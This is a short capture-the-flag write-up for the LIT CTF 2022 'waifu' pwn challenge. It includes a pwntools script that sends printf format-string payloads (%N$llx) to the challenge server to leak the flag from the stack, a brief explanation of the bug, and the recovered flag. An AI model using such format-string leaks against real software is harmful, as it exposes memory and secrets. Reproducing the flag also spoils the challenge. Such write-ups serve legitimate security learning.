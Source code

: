 # LIT CTF 2022 – waifu

* **Category:** pwn
* **Points:** 500

## Challenge

> Honestly I just needed a name, I am almost out of time :skull:. 

## Solution

```python
from pwn import *
elf = context.binary = ELF('./waifu',checksec=False)
#p = process()
flag = []
for i in range(6,11):
	p = remote('litctf.live',31791)
	log.info(p.clean())
	p.sendline('%{}$llx'.format(i).encode())
	p.recvuntil(b"say:\n")
	leaked_flag = p.recvline()[:-1]
	decoded = unhex(leaked_flag.strip().decode())
	flag.append((decoded[::-1]).decode('utf-8'))
print(f"FLAG: {''.join(flag)}")
```
![image](https://user-images.githubusercontent.com/78451563/180676611-ba63cfb4-a119-4a54-9519-99ebd29467b7.png)

In main function we see that `flag.txt` is being stored in the stack and we're given control of printf leading to a `printf string vulnerability` to occur.
```
LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}
```
